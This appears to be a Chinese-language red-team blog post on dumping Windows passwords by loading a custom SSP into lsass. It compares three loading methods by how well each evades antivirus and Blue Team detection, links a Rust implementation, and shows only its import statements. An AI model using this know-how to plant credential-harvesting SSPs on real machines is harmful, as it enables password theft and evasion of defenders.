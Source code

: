 (1) 使用MemSSP对lsass进行patch

> 优点：
> 
> - 不需要重启服务器
> - Lsass进程中不会出现可疑的DLL  
>     缺点：
> - 需要调用WriteProcessMemory对lsass进行操作，可能会被标记

(2) 使用AddSecurityPackage加载SSP

> 优点：
> 
> - 可以绕过部分杀软对lsass的监控
> - 可以加载mimilib来记录密码以应对版本大于等于Windows Server 2012的情况
> - 不需要重启服务器  
>     缺点：
> - 需要写注册表
> - 需要将SSP的dll拷贝到system32下
> - Blue Team可以通过枚举SSP来发现我们自定义的SSP，并且lsass进程中可以看到加载的DLL

(3) 通过RPC加载SSP

优点：

> - 可以绕过杀软对lsass的监控
> - 可以加载mimilib来记录密码以应对版本大于等于Windows Server 2012的情况
> - 不需要重启服务器
> - 不需要写注册表  
>     缺点：
> - 因为没有写注册表，所以无法持久化，如果目标机器重启的话将无法记录密码（因此个人认为比较适合在Server上用，不适合在PC上用）

这里用rust对三种方法都进行一个实现，暂且实现了AddSecurityPackage方法，后续github持续更新。一些基础知识可以看msdn-&gt;<https://learn.microsoft.com/zh-cn/windows/win32/secauthn/lsa-mode-initialization>

### 使用AddSecurityPackage加载SSP

完整代码在 <https://github.com/haoami/RustSSPdumpHash>  
lib如下

```rust
use std::{os::{windows::prelude::{FileExt, OsStringExt, OsStrExt}, raw::c_void}, io::Write, slice, ffi::{OsString, CString}, fs::File};
use windows::{
    Win32::{
        Security::{
            Authentication::Identity::{ 
                SECPKG_PARAMETERS, LSA_SECPKG_FUNCTION_TABLE, SECPKG_FLAG_ACCEPT_WIN32_NAME, SECPKG_FLAG_CONNECTION, SECURITY_LOGON_TYPE, LSA_UNICODE_STRING, SECPKG_PRIMARY_CRED, SECPKG_SUPPLEMENTAL_CRED, SECPKG_INTERFACE_VERSION, SecPkgInfoW, PLSA_AP_INITIALIZE_PACKAGE, PLSA_AP_LOGON_USER, PLSA_AP_CALL_PACKAGE, PLSA_AP_LOGON_TERMINATED, PLSA_AP_CALL_PACKAGE_PASSTHROUGH, PLSA_AP_LOGON_USER_EX, PLSA_AP_LOGON_USER_EX2, SpShutdownFn, SpInitializeFn, SpAcceptCredentialsFn, SpAcquireCredentialsHandleFn, SpFreeCredentialsHandleFn, LSA_AP_POST_LOGON_USER, SpExtractTargetInfoFn, PLSA_AP_POST_LOGON_USER_SURROGATE, PLSA_AP_PRE_LOGON_USER_SURROGATE, PLSA_AP_LOGON_USER_EX3, SpGetTbalSupplementalCredsFn, SpGetRemoteCredGuardSupplementalCredsFn, SpGetRemoteCredGuardLogonBufferFn, SpValidateTargetInfoFn, SpUpdateCredentialsFn, SpGetCredUIContextFn, SpExchangeMetaDataFn, SpQueryMetaDataFn, SpChangeAccountPasswordFn, SpSetCredentialsAttributesFn, SpSetContextAttributesFn, SpSetExtendedInformationFn, SpAddCredentialsFn, SpQueryContextAttributesFn, SpGetExtendedInformationFn, SpGetUserInfoFn, SpApplyControlTokenFn, SpDeleteContextFn, SpAcceptLsaModeContextFn, SpInitLsaModeContextFn, SpDeleteCredentialsFn, SpGetCredentialsFn, SpSaveCredentialsFn, SpQueryCredentialsAttributesFn}, Authorization::ConvertSidToStringSidW
            }, 
            Foundation::{NTSTATUS, STATUS_SUCCESS, PSID}
        }, core::PWSTR
    };
use windows::core::Result;
use windows::core::Error;

```